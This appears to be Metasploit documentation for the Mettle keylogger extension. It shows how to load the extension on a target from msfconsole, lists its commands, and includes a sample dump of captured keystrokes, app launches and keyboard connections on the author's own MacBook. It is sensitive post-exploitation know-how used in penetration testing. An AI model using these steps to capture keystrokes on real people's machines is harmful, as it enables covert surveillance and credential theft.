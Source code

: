 KEYLOGGER EXTENSION
===================

This loadable extension allows users to capture keystrokes, application starting and stopping, and keyboard devices being conneted or removed from a target.

Loading the Keylogger
---------------------

Once you've established a connection to Mettle, you can load the keylogger extension with the following command in your msfconsole terminal:

`load keylogger`

If things go according to plan, you should get a message that the extension was successfully loaded:

```
meterpreter > load keylogger
Loading extension keylogger...Success.
```

Using the Keylogger
-------------------

The keylogger commands operate on a similar paradigm as the sniffer extension commands do.  You can see the available commands with `help` in your msfconsole terminal:

```
Keylogger Commands
==================

    Command            Description
    -------            -----------
    keylogger_dump     Retrieve keylogged data
    keylogger_release  Free keylogged data instead of downloading
    keylogger_start    Start keylogging
    keylogger_status   View keylogging status
    keylogger_stop     Stop keylogging
```

An Example
----------

In this example, I will start the keylogger on my target MacBook and then do the following:

* attach a keyboard
* start the Firefox browser
* type `archive.org` in the URL and press ENTER
* in the search box on archive.org's website, type `geocities.com` and press ENTER

Then I'll stop the keylogger and dump/download the activity to my Metasploit framework instance.

```
meterpreter > keylogger_start
[*] Keylogger capture started
meterpreter > keylogger_stop
[*] Keylogger capture stopped
meterpreter > keylogger_dump
========== Devices/7-3-2018/Time Stamps ==========
Connected - Wednesday, March 7, 2018 at 2:20:28 PM Central Standard Time	<IOHIDDevice 0x7fd21e507a80 [0x7fffa24b0980] 'ClassName=IOUSBHostHIDDevice'  Transport=USB VendorID=1241 ProductID=41265 Manufacturer=HOLTEK Product=USB-HID Keyboard PrimaryUsagePage=1 PrimaryUsage=2 ReportInterval=8000>
Connected - Wednesday, March 7, 2018 at 2:20:28 PM Central Standard Time	<IOHIDDevice 0x7fd21e436a60 [0x7fffa24b0980] 'ClassName=IOUSBHostHIDDevice'  Transport=USB VendorID=1241 ProductID=41265 Manufacturer=HOLTEK Product=USB-HID Keyboard PrimaryUsagePage=1 PrimaryUsage=6 ReportInterval=8000>


========== Key/7-3-2018/Terminal ==========

Wednesday, March 7, 2018 at 2:20:25 PM Central Standard Time

Wednesday, March 7, 2018 at 2:20:55 PM Central Standard Time
keylogger\RS(-)stop

========== Key/7-3-2018/Firefox ==========

Wednesday, March 7, 2018 at 2:20:38 PM Central Standard Time
archib\DELETE|BACKSPACEve.org
geocities.com


========== App/7-3-2018/Time Stamps of Apps ==========
Wednesday, March 7, 2018 at 2:20:33 PM Central Standard Time	Firefox
Wednesday, March 7, 2018 at 2:20:54 PM Central Standard Time	Terminal
```

You can see in the above that the following were captured:

* my keyboard device being conneted to the system
  * I believe it enumerates as two types of keyboards/keypads, hence the two entries
* my terminal application was in use, including the command I typed to stop the keylogger
* my Firefox application was active
  * including the archive.org (and the typo and backspace I had to do to correct it!)
  * including the geocities.com I typed in the serach box of the archive.org web page
* the timestamps of when I used the Firefox and Terminal applications
